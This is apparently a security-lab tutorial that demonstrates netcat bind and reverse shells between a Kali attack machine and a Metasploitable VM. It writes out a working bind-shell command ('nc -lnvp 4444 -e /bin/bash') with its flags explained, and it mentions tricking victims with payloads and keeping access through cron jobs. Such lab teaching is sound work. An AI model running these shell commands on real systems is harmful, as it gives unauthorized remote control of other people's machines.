 - Kali Linux machine will be our attack host. 

- We will establish backdoors on our Metasploitable VM, a vulnerable web server.

#### Bind Shell Demonstration

A bind shell is configured on the target host. The host binds to a specific port that's listening for incoming connections from the attacker.

1. Begin by starting a listener on the victim's Metasploitable machine. This step assumes that we have already exploited the target and have access to it.

   - On Metasploitable, run the following command to create a listener on port `4444`.   

      -  `nc -lnvp 4444 -e /bin/bash`

         - `-l`: Tells Ncat to listen for incoming connection.
         - `-n`: Indicates that we are listening for numeric IP addresses.
         - `-v`: Means verbose, which will print more information about the connection.
         - `-p <port number>`: Specifies which port to listen on. 
         - `-e`: Executes a bash shell, specifically, `/bin/bash`.

   - Once the Kali machine connects, you will see a `connect to...(UNKNOWN)...` message.

        ![Bind 1](Images/BIND_2.png)

2. Next, we'll establish a connection to the listener on the Metasploitable VM.

   - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

        - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      ![Bind 1](Images/BIND_1.png)

We have successfully established a connection between the attacker and target machines!


#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 
